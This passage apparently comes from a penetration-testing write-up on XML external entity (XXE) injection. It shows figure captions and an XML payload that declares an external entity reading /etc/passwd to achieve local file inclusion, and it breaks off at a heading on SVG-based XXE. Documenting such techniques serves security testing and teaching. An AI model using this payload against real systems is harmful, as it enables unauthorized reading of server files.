 <figure><img src="../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 7: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 8).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 8: LFI via XXE.</p></figcaption></figure>

### SVG XXEI -> LFI
